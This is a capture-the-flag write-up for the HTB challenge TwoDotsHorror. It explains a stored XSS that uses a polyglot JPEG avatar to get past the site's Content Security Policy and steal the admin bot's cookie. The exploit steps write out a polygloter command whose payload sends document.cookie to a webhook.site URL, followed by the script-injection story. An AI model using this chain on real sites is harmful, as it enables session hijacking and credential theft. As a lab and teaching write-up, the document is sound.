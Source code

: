 #  TwoDotsHorror HTB Challenge 

After we register and login, the webapp has 2 main funcionality, we can upload a profile image and we can post a story into the feed.
The Story must have 2 dots, this is the only restriction we need to comply.

Once we fill the form and we send the message, we get a message that the admin need to approve our story before it can be posted
The story is stored inside /review.html `<p>{{ post.content|safe }}</p>` where the admin (actually, a puppeter bot) will review it.

So, we now know that the message will be stored inside review.html, and a bot, from a --no-sandbox browser, is going to visit that page with the cookie needed to access the page.

Seems like we're going to send an XSS payload to be stored into review.html to steal the admin cookie when the bot will come to visit the page.

```js
const cookies = [{
    'name': 'flag',
    'value': 'HTB{f4k3_fl4g_f0r_t3st1ng}'
}];

async function purgeData(db){
	const browser = await puppeteer.launch(browser_options);
	const page = await browser.newPage();

	await page.goto('http://127.0.0.1:1337/');
	await page.setCookie(...cookies);

	await page.goto('http://127.0.0.1:1337/review', {
		waitUntil: 'networkidle2'
	});

	await browser.close();
	await db.migrate();
```

I tried with a classic cookie stealer XSS but it does not work because of the CSP restricrions.

```js
app.use(function(req, res, next) {
	res.setHeader("Content-Security-Policy", "default-src 'self'; object-src 'none'; style-src 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com;")
	next();
```

### Polyglot Jpeg / XSS

 CSP restrictions  can be bypassed using **polyglot jpegs**:
- https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs
	"If you allow users to upload JPEGs, these uploads are on the same domain as your app, and your CSP allows script from "self", you can bypass the CSP using a polyglot JPEG by injecting a script and pointing it to that image."

We'll inject an XSS script inside a jpeg and upload it as our profile image, then we can call the image sending another XSS from the story feed that'll be stored in review.html. 

### Jpeg, please follow this rules:

We can see from the /UploadHelper.js that the jpeg is gonna be checked by `isJpg` for its integrity,  has to be 120x120px minimum, and it is uploaded in the /upload/ folder and renamed with a md5 hash.

```js
const fs         = require('fs');
const path       = require('path');
const isJpg      = require('is-jpg');
const sizeOf     = require('image-size');

module.exports = {
	async uploadImage(file) {
		return new Promise(async (resolve, reject) => {
			if(file == undefined) return reject(new Error("Please select a file to upload!"));
			try{
				if (!isJpg(file.data)) return reject(new Error("Please upload a valid JPEG image!"));
				const dimensions = sizeOf(file.data);
				if(!(dimensions.width >= 120 && dimensions.height >= 120)) {
					return reject(new Error("Image size must be at least 120x120!"));
				}
				uploadPath = path.join(__dirname, '/../uploads', file.md5);
				file.mv(uploadPath, (err) => {
					if (err) return reject(err);
				});
				return resolve(file.md5);
			}catch (e){
				console.log(e);
				reject(e);
```

To see the image in the browser just got to /api/avatar/YOUR_USERNAME:
```js
router.get('/api/avatar/:username', async (req, res) => {
	return db.getUser(req.params.username)
		.then(user => {
			if (user === undefined) return res.status(404).send(response('user does not exist!'));
			avatar = path.join(__dirname, '/../uploads', user.avatar);
			return res.sendFile(avatar);
		})
		.catch(() => res.status(500).send(response('Something went wrong!')));
});

```
#### isJpg
https://github.com/sindresorhus/is-jpg

From the isJpg github repo we got 2 main info:
1. Check if a Buffer/Uint8Array is a [JPEG](https://en.wikipedia.org/wiki/JPEG) image
2. It only needs the first 3 bytes

So it **checks only the first 3** bytes to confirm that the image is a Jpeg.
The signature of the Jpeg has minimum 4 (Magic)bytes:
FF D8 FF E0.
https://en.wikipedia.org/wiki/List_of_file_signatures

We can follow along the portswigger post about the polyglot image and how make it or, we can use a very good tool made by **s-3ntinel** that works beautifully.

There are other tools to make polyglot jpeg, but i found this to be the best and it is really simple to read:
> The Tool: https://github.com/s-3ntinel/imgjs_polygloter

## Exploit Steps

1. Download the tool from github and make a jpeg image like this:
```sh
python3 img_polygloter.py jpg -H 120 -W 120 -p "window.location.href='https://webhook.site/XxXxXxX-XxXx-XxXX-XxXx-d0da00f5cddd/?cookie='+document.cookie" -o PolYGloT.jpeg
```
2. Upload the image
3. Submit this "story" ():
```html
</p>a.a.<script charset=\"ISO-8859-1\" src=\"/api/avatar/YOUR_USERNAME\"></script>
```
4. Wait the Webhook to be hooked by admin!
